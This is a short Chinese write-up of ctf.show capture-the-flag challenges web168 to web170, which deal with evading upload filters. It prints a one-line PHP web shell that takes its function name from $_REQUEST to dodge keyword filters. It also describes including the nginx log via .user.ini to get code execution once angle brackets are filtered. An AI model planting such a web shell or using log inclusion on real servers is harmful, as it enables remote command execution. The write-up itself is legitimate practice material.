 ## web168

基础免杀

过滤了 eval assert get post cookie 关键词

用 `$_REQUEST` 绕过

```php
<?php $_REQUEST[1]($_REQUEST[2]);?>
```

这次是 nginx, php 后缀直接就能上传...

![20220803213019](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803213019.png)

eval assert 都不太好使, 用 system 执行命令

![20220803213303](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803213303.png)

## web169

高级免杀

nginx 服务器, `<` `>` 都被过滤了, 但是 php 后缀能上传

![20220803214139](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803214139.png)

Content-Type 好像必须是 image/png 才行

upload 目录下没有 index.php, 但因为我们可以自行上传 php

所以配合 .user.ini 包含 nginx 日志

![20220803214447](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803214447.png)

连接 `http://1b28bec0-f7f1-48c0-a4a7-1359931ee9ba.challenge.ctf.show/upload/2.php` 得到 flag

## web170

终极免杀

同上